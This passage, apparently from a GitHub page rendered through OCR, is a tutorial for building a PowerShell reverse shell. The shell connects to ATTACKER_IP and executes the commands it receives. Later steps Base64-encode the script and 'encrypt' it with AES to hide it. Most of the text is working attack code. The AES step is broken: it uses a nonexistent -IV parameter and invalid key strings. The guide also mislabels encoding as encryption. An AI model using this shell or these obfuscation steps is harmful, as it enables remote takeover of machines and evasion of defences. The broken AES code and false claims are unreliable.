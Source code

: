 ```
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (Invoke-Expression $data 2>&1 | Out-String )
    $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

---

## **Step 2: Encrypting the Payload**
Use Base64 encoding to encrypt the payload.

#### Encode the Script
```powershell
$script = @'
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", ATTACKER_PORT)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | %{0}

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (Invoke-Expression $data 2>&1 | Out-String )
    $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
'@

$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encodedCommand = [Convert]::ToBase64String($bytes)
$encodedCommand
```

#### Execute the Encoded Payload
```powershell
powershell -EncodedCommand <Base64_Encoded_String>
```

---

## **Step 3: Advanced Encryption with AES**
For stronger encryption, use AES.

#### Example: AES Encryption
```powershell
# Encrypt the payload
$key = "1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p"
$iv = "9i8h7g6f5e4d3c2b1a"
$payload = "Your reverse shell script here"
$encryptedPayload = ConvertTo-SecureString -String $payload -Key $key -IV $iv

# Decrypt and execute
$decryptedPayload = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($encryptedPayload))
Invoke-Expression $decryptedPayload
```

---